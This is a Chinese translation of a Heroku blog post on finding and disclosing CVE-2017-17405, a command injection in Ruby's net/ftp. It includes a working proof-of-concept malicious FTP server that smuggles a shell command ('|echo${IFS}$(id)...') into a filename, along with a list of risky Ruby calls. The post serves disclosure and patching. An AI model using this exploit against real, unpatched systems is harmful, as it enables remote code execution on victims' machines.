

# 深入 Ruby CVE-2017-17405:识别 Ruby 的 FTP 实现中的漏洞

> 原文：<https://dev.to/heroku/a-dive-into-ruby-cve-2017-17405-identifying-a-vulnerability-in-rubys-ftp-implementation-1m11>

在 Heroku，我们持续监控新问题的漏洞源。一旦出现新的漏洞，我们会立即采取行动进行分类，并确定我们的平台和客户可能受到的影响。该过程的一部分包括评估原始漏洞报告中未包括的可能攻击场景。我们还花时间在其他产品中寻找“相邻”和类似的 bug。在此过程中发现了以下 Ruby 漏洞。

## 漏洞筛选

在`libcurl`中发现了一个漏洞 [CVE-2017-8817](https://curl.haxx.se/docs/adv_2017-ae72.html) 。处理通配符时，FTP 函数包含越界读取。漏洞一公开，我们就检查了我们的各种系统，以确定它们是如何受到影响的，并启动修补程序。Heroku 系统内部的直接使用已被识别并标记为修补。一旦我们确信所有的实例都被标记了，我们就开始寻找其他可能有类似问题的库。凭直觉，并且因为我们的大量客户使用 Ruby，我们决定看看 Ruby 的 FTP 实现。我们的方法是双重的，首先确定 Ruby 是否使用`libcurl`来实现其 FTP 功能，如果是的话，这个漏洞是否会在 Ruby 应用程序中触发。第二，确定 Ruby 是否有一个自定义的 FTP 实现，是否也允许 FTP 通配符，如果是，这个实现中是否也存在漏洞。

为了做我们的调查，我们下载了 Ruby 的最新源代码，当时是 2.4.2 版本，并对所有提到 FTP 的地方做了一个快速的`grep`搜索。

```
$ grep -i ftp -R *

ChangeLog:net/ftp: add a new option ssl_handshake_timeout to Net::FTP.new.
ChangeLog:net/ftp: close the socket directly when an error occurs during TLS handshake.
ChangeLog:Otherwise, @sock.read in Net::FTP#close hungs until read_timeout exceeded.
ChangeLog:net/ftp: close the connection if the TLS handshake timeout is exceeded. 
```

Enter fullscreen mode Exit fullscreen mode

原来 Ruby 有自己的 FTP 库，它被打包成了 *net/ftp* 。我们开始查看 *lib/net* 文件夹，一半期待 FTP 的自定义 C 实现。原来有一个单独的 *ftp.rb* 文件，它只有 1496 行代码。

## 漏洞

在通读 *ftp.rb* 中的代码时，有几个常见的疑点需要注意:

*   `command`
*   `%x/command/`
*   `IO.popen(command)`
*   `Kernel.exec`
*   `Kernel.system`
*   `Kernel.open("| command")`和`open("| command")`

上述所有函数都是在 Ruby 应用程序中获得[远程代码执行(RCE)](https://www.owasp.org/index.php/Ruby_on_Rails_Cheatsheet#Command_Injection) 的常见途径，因此也是代码分析期间首先要寻找的东西之一。没用多长时间就可以识别出几个使用`open`函数来读写文件的位置。

查看`gettextfile`函数，我们可以看到一个对`open`的调用，使用的似乎是用户控制的数据:

```
778     #
779     # Retrieves +remotefile+ in ASCII (text) mode, storing the result in
780     # +localfile+.
781     # If +localfile+ is nil, returns retrieved data.
782     # If a block is supplied, it is passed the retrieved data one
783     # line at a time.
784     #
785     def gettextfile(remotefile, localfile = File.basename(remotefile),
786                     &block) # :yield: line
787       f = nil
788       result = nil
789       if localfile
790         f = open(localfile, "w")
791       elsif !block_given?
792         result = String.new
793       end
794       begin
795         retrlines("RETR #{remotefile}") do |line, newline|
796           l = newline ? line + "\n" : line
797           f&.print(l)
798           block&.(line, newline)
799           result&.concat(l)
800         end
801         return result
802       ensure
803         f&.close
804       end
805     end 
```

Enter fullscreen mode Exit fullscreen mode

如果值为`| os command`，则`localfile`值将触发命令执行。在一般使用中，大多数用户可能会提供他们自己的`localfile`值，而不会依赖于默认的`File.basename(remotefile)`，但是，在某些情况下，如列出和下载 FTP 共享中的所有文件，`remotefile`值将由远程主机控制，因此可能被操纵导致 RCE。因为文件路径只是服务器返回的一个字符串(或者是`LIST`命令的`ls -l`样式，或者是`NLIST`的文件名)，所以不能保证文件名是有效的文件名。

## 概念验证

我们编写了一个基本的 Ruby 客户端，可以用来测试漏洞。这个客户端简单地连接到一个服务器，请求一个文件列表，然后尝试下载所有的文件。

```
require 'net/ftp'
host = '172.17.0.4'
port = 2121

Net::FTP.const_set('FTP_PORT',port)
Net::FTP.open(host) do |ftp|
 ftp.login
 fileList = ftp.nlst('*')
 fileList.each do |file|
       ftp.gettextfile(file)
 end
end 
```

Enter fullscreen mode Exit fullscreen mode

我们的服务器需要用包含我们要执行的命令的文件名来响应`NLIST`命令。因为没有对提供的文件名进行验证或清理，所以它将被直接传递给`open`函数，我们的命令将会执行。唯一需要注意的是，我们的*“文件名”*需要以`|`开头。

PoC 服务器代码不是你见过的最好的 Ruby 代码，但它足以触发漏洞并为我们提供 RCE。服务器需要模拟 FTP 连接的*握手*。这欺骗了客户端，使其认为它正在连接到一个真正的 FTP 服务器，并做了最起码的工作让客户端请求一个文件列表。

```
require 'socket'
host = '172.17.0.4'
port = 2121
hostsplit = host.tr('.',',')

server = TCPServer.new port

loop do
 Thread.start(server.accept) do |client|
   client.puts "220 Attack FTP\r\n"
   r = client.gets
   puts r
   client.puts "331 password please - version check\r\n"
   r = client.gets
   puts r
   client.puts "230 User logged in\r\n"
   r = client.gets
   puts r
   client.puts "230 more data please!\r\n"
   r = client.gets
   puts r
   client.puts "230 more data please!\r\n"
   r = client.gets
   puts r
   wait = true
   psv = Thread.new do
       pserver = TCPServer.new 23461
       Thread.start(pserver.accept) do |pclient|
           while wait do
           end
           pclient.puts "|echo${IFS}$(id)${IFS}>pang\r\n"
           pclient.close
       end
   end

   sleep 1

   client.puts "227 Entering Passive Mode ("+hostsplit+",91,165)\r\n"
   r = client.gets
   puts r

   psv.join

   client.puts "150 Here comes the directory listing.\r\n"
   wait = false

   client.puts "226 Directory send OK.\r\n"
   r = client.gets
   puts r
   client.puts "221 goodbye\r\n"
   client.close
 end
end 
```

Enter fullscreen mode Exit fullscreen mode

当我们向`filelist`提供`pclient.puts "|echo${IFS}$(id)${IFS}>pang\r\n"`时，实际的攻击就发生了，这将导致`echo $(id) > pang`在连接的客户端上运行。如果我们的攻击成功，我们将看到在客户机上创建了一个新文件，包含`id`命令的输出。尽管不是绝对必要的，我们使用`${IFS}`对空格进行了“编码”，这是一个特殊的 shell 变量，称为内部字段分隔符。这在空格导致有效负载出现问题的情况下非常有用。

[T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--PiolGdqL--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://heroku-blog-files.s3.amazonaws.com/posts/1519397611-rubyCVEscreenshot.png)

## 报告并修复

我们在发现漏洞后不久就向 Ruby 团队报告了这个漏洞。反响非常好，漏洞在几个小时内就被修复了。

Ruby 团队只是简单地用`File.open`函数替换了`open`函数，它不容易受到命令注入的攻击。

该修复包含在 Ruby 的稳定版本 2.4.3 中。我们也被分配到 [CVE-2017-17405](https://www.ruby-lang.org/en/news/2017/12/14/net-ftp-command-injection-cve-2017-17405/) 。

以下版本的 Ruby 都会受到此漏洞的影响:

*   Ruby 2.2 系列:2.2.8 和更早的版本
*   Ruby 2.3 系列:2.3.5 及更早版本
*   Ruby 2.4 系列:2.4.2 和更早的版本
*   Ruby 2.5 系列:2 . 5 . 0-预览版 1
*   在行李箱版本 r61242 之前

## 结论

系统健康(短暂性、不变性、修补等)是安全系统的基础。围绕漏洞修补的安全和开放的交流提高了对影响我们整个计算生态系统的类似弱点的认识。你可能会认为这是我们对各类漏洞的免疫力如何进化，从而保护我们的基础设施。

在 Heroku，我们密切关注安全研究和漏洞披露。我们对围绕漏洞的安全讨论的信念和投资确保了我们的软件栈保持最新，我们的客户得到保护。

修补程序管理是安全生命周期不可或缺的一部分，不能是简单应用修补程序的静态过程。检查和了解漏洞被修补的根本原因有助于识别受影响软件中的更多漏洞，甚至是完全不同的软件包。我们密切监控安全研究和漏洞披露，以确保我们的软件栈保持最新，我们的客户得到保护。

如果你喜欢这篇文章，请查看 Heroku 的工程博客，了解更多关于我们如何建造 Heroku 的信息。